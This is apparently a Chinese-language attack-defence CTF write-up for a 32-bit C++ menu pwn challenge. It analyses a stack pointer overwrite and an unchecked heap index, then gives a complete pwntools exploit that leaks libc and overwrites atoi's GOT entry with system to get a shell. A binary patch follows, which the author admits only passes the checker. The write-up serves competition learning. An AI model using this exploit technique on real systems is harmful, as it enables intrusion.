 # awd

本次awd共2道web一道pwn

队友：Doddy & mysid

从上午的个人赛发现几乎都没什么人会pwn，疯狂拿分夺得第三！

## pwn赛题

> 题目可以在[Releases](https://github.com/RocketMaDev/CTFWriteup/releases/download/career/career.tar.zst)附件中找到

### 文件属性

|属性  |值    |
|------|------|
|Arch  |x86   |
|RELRO |No    |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.31-0ubuntu9.16|

### 程序粗解

C++菜单题，只用到了`cout`和`endl`，使用`atoi`来把输入的字符串转换为int

### 漏洞分析

1. `main`函数中输入菜单项时，在栈上存在可以覆盖的指针，随后可以对指针写入任意内容

![bug1](assets/bug1.png)

> [!IMPORTANT]
> `"%4094s"`不允许修改，否则过不了check

![add](assets/add.png)

2. `edit`函数中输入的索引可以基于`heap`做任意写，未经检查

![bug2](assets/bug2.png)

### 个人题解

可以先利用任意地址写把`GOT[atoi]`写到`heap`上，这样`show`就能leak libc；
然后再利用`edit`就可以把`system`的地址写上去，最后输入 *'/bin/sh'* 就可以拿shell

> [!NOTE]
> 本来想再次利用scanf原语的，但是输入的是`system`的数字，实际写的时候却变成了-1，
> 知道原因的话可以开一个 discussion

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './pwn3'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
        libc = ELF('/usr/lib32/libc.so.6')
    else:
        sh = remote('10.103.2.3', 9999)
        libc = ELF('./libc.so.6')
    elf = ELF(EXE)

    sh.sendlineafter(b'shop===', b'1'.ljust(0x30, b'\0') + p32(elf.symbols['heap']))
    sh.sendlineafter(b'Size', str(elf.got['atoi']).encode())
    sh.sendlineafter(b'shop===', b'3')
    sh.sendlineafter(b'Index', b'0')
    sh.recvuntil(b'content:')
    
    libcBase = u32(sh.recv(4)) - libc.symbols['atoi']
    success(GOLD_TEXT(f'Leak libcBase: {libcBase:#x}'))
    libc.address = libcBase
    info(f'system@{libc.symbols["system"]:#x}')

    sh.sendlineafter(b'shop===', b'4'.ljust(0x30, b'\0') + p32(elf.got['atoi']))
    # sh.sendlineafter(b'Size', str(libc.symbols['system']).encode())
    sh.sendlineafter(b'Index', b'-7')
    sh.sendlineafter(b'content:', p32(libc.symbols['system']))
    sh.sendlineafter(b'shop===', b'/bin/sh')

    sh.clean()
    sh.interactive()
```

### 参考修复方案

先上个通用沙箱，然后patch以下问题

```diff
--- orig.S
+++ patched.S
@@ -8049b69,8049b7c +8049b69,8049b7c @@
 ; main
-8d 85 f4 ef ff ff      lea eax, [ebp - 0x100c]
-83 c0 30               add eax, 0x30
-8b 00                  mov eax, DWORD PTR [eax]
+8d 83 60 00 00 00      lea eax, [ebx + 0x60]   ; &data_start
+90                     nop
+90                     nop
+90                     nop
+90                     nop
 83 ec 0c               sub esp, 0xc
 50                     push eax
 e8 2a fa ff ff         call add
@@ -8049a95,8049ab3 +8049a95,8049ab3 @@
 ; edit
 8b 45 f0               mov eax, DWORD PTR [ebp - 0x10]
 8d 14 85 00 00 00 00   lea edx, [eax * 4]
-8d 83 70 00 00 00      lea eax, [ebx + 0x70]   ; heap
-01 d0                  add eax, edx            ; &heap[index]
+8d 83 68 00 00 00      lea eax, [ebx + 0x68]   ; &DW.ref.__gxx_personality_v0
+90                     nop
+90                     nop
 83 ec 04               sub esp, 0x4
 6a 08                  push 0x8
 50                     push eax
 6a 00                  push 0x0
 e8 0c f8 ff ff         call read
```

第一处修改，把地址修改为bss上的地址个人认为比较好，但是第二处修改由于本质上没有做检查，
忽略了`index`，实际上有所疏漏，只是能过check，不能算一个好的方案

